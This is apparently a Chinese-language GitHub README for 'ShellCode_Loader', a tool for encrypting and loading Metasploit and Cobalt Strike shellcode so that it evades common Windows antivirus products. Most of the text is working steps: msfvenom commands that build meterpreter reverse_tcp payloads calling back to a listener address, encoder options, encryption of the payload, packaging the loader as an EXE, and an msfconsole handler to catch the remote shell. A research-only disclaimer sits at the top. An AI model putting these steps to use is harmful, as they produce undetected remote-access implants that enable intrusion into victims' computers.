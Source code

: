 # ShellCode_Loader
ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。
# 声明
该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。
# 测试环境
截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）
# 生成Msf_Payload
### 默认
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```
### XOR 编码器
```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```
### 动态密钥XOR编码器
```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```
### Zutto Dekiru
```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```
# 生成CobaltStrike_Payload
![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件

内容为：

![图片](https://user-images.githubusercontent.com/34683107/188178026-bd171622-6f6e-4568-af43-e2d49755220c.png)

# 加密Payload
```
Shellcode_encryption.exe    payload.c
```
![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器
将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)
# 打包可执行程序(EXE编译环境)
Python 3.8.6

pyinstaller 4.7
```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```
生成ShellCode_Loader.exe在dist目录中
# 上线测试
## 运行监听
```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```
![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢
# 参考链接
https://mp.weixin.qq.com/s/M3tbE08ybD_lIrJS8FtPTw

https://mp.weixin.qq.com/s/jMHn4trtMjgdSIsRmoVOtw

https://mp.weixin.qq.com/s/2105i9rX4yv6K0emRFr8_g

https://mp.weixin.qq.com/s/VS_c3QClxmCB6raXEfljpg

https://mp.weixin.qq.com/s/4pwbdK6zz4XH7YJxCoA1Lw

# 感谢阅读
![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)

